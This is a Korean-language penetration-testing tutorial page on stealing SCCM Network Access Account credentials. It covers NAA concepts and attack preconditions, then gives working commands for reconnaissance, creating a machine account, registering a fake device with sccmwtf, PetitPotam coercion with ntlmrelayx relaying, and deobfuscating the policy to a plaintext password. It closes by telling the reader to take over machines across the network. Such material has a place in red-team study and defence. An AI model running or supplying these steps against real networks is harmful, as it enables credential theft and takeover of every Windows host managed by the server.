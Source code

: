 # SCCM

## 개념

SCCM(Microsoft System Center Configuration Manager)은 네트워크 내 윈도우 호스트들을 업데이트하거나 패치 하는데 사용되는 Intune 솔루션 제품들 중 하나다.

* **SCCM Server:** SCCM을 전반적으로 관리하는 서버
* **SCCM Client:** SCCM에 등록된 뒤 업데이트 및 패치를 받을 클라이언트 호스트
* **DP (Distribution Point):** SCCM 클라이언트들이 다운받고 설치할 패키지들을 배포하는 서버
* **NAA (Network Access Account):** SCCM 클라이언트가 머신 계정으로 DP나 SCCM 서버에 접근할 수 없는 경우, 대신 사용하게 되는 SCCM 전용 네트워크 접근 계쩡

SCCM에는 NAA라는 계정이 존재한다. 클라이언트들은 SCCM 서버 혹은 DP 서버에 접근할 때 원래 자신의 머신 계정을 이용하는데, 이때 접근이 불가능할 경우 NAA를 사용하게 된다. NAA와 관련된 계정 정보 (유저이름, 비밀번호) SCCM 클라이언트가 SCCM 서버에 등록될 때 자동적으로 클라이언트에게 전송된다. 클라이언트가 서버에 등록할 때 다양한 정책과 설정 관련된 파일들을 XML 형태로 다운받게 되는데, 이때 NAA 계정 정보가 들어간 `NAAConfig.xml` 도 같이 다운받게 된다.

`NAAPolicy.xml` 에는 NAA 계정 정보가 암호화 + 난독화 되어 있는 상태로 저장된다. 먼저 난독화가 진행된 뒤, 이 난독화된 blob에 암호화를 진행한다. 암호화에는 SCCM 클라이언트가 등록할 때 생성한 Self-Signed Certificate 의 RSA 공개 키에서 도출된 키가 사용된다.

## 공격

#### 공격 사전 조건

1. SCCM 서버가 네트워크안에 있으며, SCCM을 사용 중
2. SCCM 서버가 NAA 를 사용하도록 설정
3. 공격자가 머신 계정을 생성할 수 있도록 MachineAccountQuota 가 0 이상이거나, Authentication Coercion 공격 가능

위 조건들이 맞는 다면 공격자는 만들어놨던 머신 계정을 이용하거나 Authentication Coercion을 이용해 SCCM 서버에 머신 계정으로 접근한 뒤, 가짜 디바이스를 생성하고 SCCM 서버에 등록한 다음, 서버가 배포하는 `NAAConfig.xml` 에서 `NAAPolicy.xml` 을 받아온다. 그 뒤, 자신의 Self-Signed Certificate  RSA 공개키에서 도출한 키를 사용해 NAA 계정 정보를 복호화 한 뒤, 윈도우의 기본 DLL 파일인 `PolicyAgent.dll` 을 이용해 NAA 계정 정보를 역난독화 한 뒤 NAA 의 평문 유저 이름과 비밀번호를 알아낼 수 있다.

NAA 계정의 경우 네트워크 내 호스트들에 접근한 뒤 패키지들을 설치하거나 패치를 진행하는 등의 일을 해야하기 때문에 로컬 관리자 권한을 갖고 있는 경우가 많다. 즉, NAA 계정 정보만 성공적으로 얻어낼 수 있다면 공격자는 순식간에 네트워크 내의 모든 윈도우 호스트들을 장악할 수 있게 된다.

## 실습

### 정보 수집

SCCM 서버 정보 수집

```
# DNS 
sccm.domain.com, sccmcm.domain.com, sccmdp.domain.com 등으로 검색 

# HTTP/HTTPS 
1. 모든 웹 서버 아이피주소 확인 (nmap -> grep + cut + sort) 
2. curl, gowitness 등을 사용해 http(s)://<host>/ccm_system_windowsauth/request 페이지가 존재하는지, 존재 한다면 basic auth 를 나타내는지 확인 
```

MAQ 및 Auth Coercion 확인

```
cme ldap <dc> -u <u> -p <p> -M maq 
cme smb <host> -u <u> -p <p> -M petitpotam,spooler,dfscoerce,shadowcoerce 
```

### 공격 1 - Machine Account + SCCMWtf

머신 계정을 생성한 뒤 SCCM 서버에 접근, 가짜 디바이스 생성, NAAConfig + NAAPolicy를 받아온다

```
# 머신 계정 생성 
addcomputer.py domain.com/user:pass -dc-ip <dc> -computer-name 'fakeComp' -computer-pass '<pass>'

# SCCMWtf
git clone https://github.com/xpn/sccmwtf
python3 sccmwtf.py fake-device fake-device.domain.com SCCM 'domain.com\fakeComp$' '<pass>'

# NAAPolicy.xml 받은 뒤 Post-Ex 단계로 진행 
```

### 공격 2 - Authentication Coercion + SCCM Relay

```
# Authentication Coercion. 예) Petitpotam 
python3 petitpotam.py -u <u> -p <p> <attackerIP> <targetIP>

# SCCM 서버를 향해 SCCM Relay 
- ThePorgs 포크 버전 사용 (https://github.com/ThePorgs/impacket) 

ntlmrelayx.py -t http://<server>/ccm_system_windowsauth/request --sccm --sccm-device fake-device --sccm-fqdn domain.com --http-port 80 --sccm-server sccm --sccm-sleep 10

# NAAPolicy.xml 받은 뒤 Post-Ex 단계로 진행 
```

### Post-Ex - NAAPolicy.xml 역난독화

XPN이 발표한 `policysecretunobfuscate.c` 를 컴파일 한 뒤, `NAAPolicy.xml` 파일안의 `NetworkAccessUsername` 와 `NetworkAccessPassword` 의 CDATA 값을 줘서 실행하면 평문 비밀번호가 나온다.

```
PS C:\dev\naadeobs\x64\Debug> .\naadeobs.exe 112233<REDACTED>
choi\sccm-naa


PS C:\dev\naadeobs \x64\Debug> .\naadeobs.exe 112233<REDACTED>
Password123!
```

이제 얻어낸 평문 유저 이름과 평문 비밀번호로 네트워크 내 다양한 머신들을 장악하면 된다.

### 레퍼런스

* https://blog.xpnsec.com/unobfuscating-network-access-accounts/
* https://github.com/xpn/sccmwtf
* https://github.com/ThePorgs/impacket/pull/14
* https://www.thehacker.recipes/ad/movement/sccm-mecm

